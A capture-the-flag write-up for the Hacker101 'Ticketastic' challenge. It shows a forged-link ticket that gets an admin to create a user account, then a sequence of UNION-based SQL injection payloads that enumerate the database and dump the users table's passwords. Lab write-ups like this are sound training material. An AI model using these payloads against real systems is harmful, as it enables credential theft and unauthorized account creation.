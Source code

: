 
## # Ticketastic: Live Instance (Hacker101)
Hacker101 CTF <br>
Difficulty: Moderate<br>
Categories: blind XSS(?), SQL injection

## Steps FLAG0
Based on the "Demo Instance" challenge, we can examine the /newUser  and /newTicket function. New users are added with this parameter ``/newUser?username=wiener&password=test&password2=test``.

Hence, we can construct a script and send it via the ticket submission. The goal is that the admin will click the ticket and executing the script.
```
<a href="http://localhost/newUser?username=wiener&password=peter&password2=peter">test</a>
``` 
Once the ticket is submitted, we can login with the user we just created. 

## Steps FLAG1
Playing with the /ticket endpoint, I got an SQL error which means it is vulnerable to SQL injection. A UNION option is useful to examine the database.

Find number of table columns:
```
/ticket?id=1.1 UNTION SELECT 1,2,3--
```
Now we know that there are 3 columns, we can examine the database version and the schemas:
```
/ticket?id=1.1UNION SELECT VERSION(),DATABASE(),3--
```
**Result:** 10.1.37-MariaDB-0+deb9u1, level7
Now that we know the database name, we can continue to search for tables, columns, and data. 
```
/ticket?id=1.11 UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME),3 FROM information_schema.COLUMNS WHERE TABLE_NAME='users'--
```
**Result:** id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```
/ticket?id=1.11 UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME),3 FROM information_schema.COLUMNS WHERE TABLE_NAME='tickets'--
```
**Result:** id,title,body,reply
```
/ticket?id=1.11 UNION SELECT id,username,password FROM users--
```
**Result:** FLAG1


## References:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

